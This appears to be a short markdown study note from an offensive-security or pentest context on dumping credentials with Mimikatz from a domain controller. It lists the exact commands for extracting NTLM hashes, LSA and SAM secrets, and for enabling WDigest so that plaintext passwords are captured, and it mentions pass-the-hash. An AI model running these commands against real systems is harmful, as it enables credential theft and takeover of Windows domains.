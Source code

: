 Cred Dumping with Mimikatz

* From the DC
## Commands 
* first thing to do privilege::debug 
	* if it says privilege '20' OK then your good
* sekurlsa::logonpasswords 
	* shows username, ntlm hash, and anyone who logs on to this machine 
	* you can use the pass the hash feature if you get a DC hash 
	* could give you a domain admins hash 
* wdigest - stores passwords in plain text in windows 7 and before 
	* you could turn it on in windows 10 and then you wait for someone to log onto the computer and you get a plain text password 
* lsadump::sam
	* might not work 
* lsadump::lsa /patch 
	* patch is important becuase it allows us to actually get the info we need 
	* lsa - local security authority 
		* authenticates and creates logons for the local computer 
